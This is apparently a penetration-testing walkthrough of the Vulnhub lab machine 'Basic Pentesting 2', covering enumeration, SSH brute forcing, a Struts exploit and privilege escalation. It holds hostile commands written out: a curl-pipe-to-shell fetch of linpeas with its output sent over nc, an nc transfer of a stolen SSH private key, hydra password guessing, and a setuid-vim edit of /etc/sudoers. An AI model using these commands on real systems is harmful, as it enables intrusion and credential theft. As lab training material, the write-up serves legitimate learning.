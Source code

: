 *2021-08-23*

*kimm3*

# Walkthrough: Basic Pentesting 2
Platform: Vulnhub

Difficulty: Easy

- [Link](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Setup
Kali and target box running on Virtual Box. Both on the same internal network and kali machine as dhcp server.

![dhcplease](assets/markdown-img-paste-20210823045314281.png)

![ll](assets/markdown-img-paste-20210823051946561.png)

## Scans and enumeration
```
export IP=192.168.10.3
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```
![nmap-init](assets/markdown-img-paste-2021082309512180.png)

| Port/s | App |
| - | - |
| 22 | SSH |
| 80 | HTTP/Apache |
| 139,445 | SMB/Samba |
| 8009 | Apache jserv |
| 8080 | Apache tomcat |

- Hostname: BASIC2
- Domain(SMB): WORKGROUP
- OS: Ubuntu/Linux

### SMB
![nmap-hostscripts](assets/markdown-img-paste-20210823051623746.png)

From the nmap initial scan.

`tools/enum4linux/enum4linux.pl -a $IP | tee scans/e4l-init.txt`

![e4l-users](assets/markdown-img-paste-20210823052244607.png)

Using enum4linux we find two users, kay and jan.


### HTTP
#### Port 80
![index80](assets/markdown-img-paste-20210823052617352.png)

![index80-comment](assets/markdown-img-paste-20210823052636116.png)

Interesting commment at the index page.

`ffuf -u "http://192.168.10.3/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdir.md`

![ffuf-indexdir](assets/markdown-img-paste-20210823052905824.png)

There's the dev section.

![dev80](assets/markdown-img-paste-20210823052927760.png)

```
curl "http://192.168.10.3/development/dev.txt" > foundfiles/dev.txt
curl "http://192.168.10.3/development/j.txt" > foundfiles/j.txt
```

![jtxt](assets/markdown-img-paste-20210823053246659.png)

Jan seems to have a weak password, crackable?

![devtxt](assets/markdown-img-paste-2021082305335945.png)

Struts = apache java framework, REST version 2.5.12

#### Port 8080
If we get the credentials for the tomcat manager, we can upload a reverse shell - there's tons of examples online.

![tomcat-mgr](assets/markdown-img-paste-20210823102949411.png)

No valid passwords found.

The Struts example that kay mentions in 'dev.txt' is [vurnelable](https://www.exploit-db.com/exploits/42627) and there's a msf module for it. See [Exploit 2](#exploit-2).

### SSH
Knowing that the user 'jan' probably has a weak password. It might be worth to try to brute force it.

## Get a foothold
There's two easy ways to get a foothold.
1. Brute force jans ssh
2. Exploit the STRUTS/REST showcase with msf

## Foothold 1
**Brute-forcing SSH with user jan**
`hydra $IP -f -t 4 -l jan -P sl/Passwords/Leaked-Databases/rockyou.txt ssh | tee scans/hydra-jan-ssh.txt`

![hydra-ssh-jan](assets/markdown-img-paste-20210823082953624.png)

Score. Now it's just to log in as jan via ssh.

## Foothold 2
**STRUTS/REST and msf**

![struts-shell](assets/markdown-img-paste-20210823102717952.png)

I had to modify the TARGETURI to match the correct version.

## Further enumeration

Check for privilige escalation possibilities. Example is as user jan but could be done with tomcat user.

`curl "http://192.168.10.1/linpeas.sh" | sh | nc 192.168.10.1 1234`

Set up a http server and listener accordingly.

![lp-kay-folder](assets/markdown-img-paste-20210823090448232.png)

The user kay home folder seems to be readable.

![vimbasic](assets/markdown-img-paste-20210823104715102.png)

Vim has the setUID bit set. Wonderful.

## Privesc possibilities
1. Using contents of `/home/kay`
2. Using vim to edit config files like `/etc/sudoers`

## Privilege escalation 1
**With contents of kays home folder**
The pass.bak wasn't readable but the id_rsa was.

```
nc -w 3 192.168.10.1 1234 < .ssh/id_rsa
```

![privkeyssh](assets/markdown-img-paste-20210823092234594.png)

The private key of user kay requires a passphrase, lets try to crack it. I had to download the latest release from hashcats github to make it work.

```
tools/ssh2john.py foundfiles/id_rsa
cd tools/hashcat-6.2.3/
./hashcat.bin -a 0 -m 22931 ~/machines/vh/basic-pentesting-2/creds/kay_idrsa-priv_hash ~/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

![kay-cracked](assets/markdown-img-paste-20210823093147460.png)

![kay-ssh](assets/markdown-img-paste-20210823093343753.png)

We can now read and send over the 'pass.bak' file.

![kay-pw](assets/markdown-img-paste-20210823093942642.png)

The file contains the password for kay, and the user has full sudo privs.

![flag.txt](assets/markdown-img-paste-2021082309402992.png)

## Privilege escalation 2
**Using vim with setUID**

`vim.basic /etc/sudoers`

![added-jan](assets/markdown-img-paste-20210823105010157.png)

Save with `:w!` to override readonly.

![sudoers-works](assets/markdown-img-paste-20210823105126733.png)

It works.

## Post Exploitation
**Password hashes**

The password for kay would be hard to crack wit public wordlists, run it once through hashcat to add the hash/paw to your potfile.

`hashcat -a 0 -m 1800 creds/kayhash creds/pass.txt`

**Tomcat mgr password**

Lets find the tomcat manager password that we didn't crack. When I did this a discovered that there's a third exploit

```
find / -iname "tomcat*" # Find tomcat install location
cat /opt/apache-tomcat-9.0.7/conf/tomcat-users.xml # View users file.
```

![tomcat-mgr-user](assets/markdown-img-paste-20210823110016314.png)

And there's the credentials.

![tomcat-mgr-login](assets/markdown-img-paste-20210823105804267.png)

Success, we can now use a .WAR payload to get remote command execution, tutorials are all over the Internet.

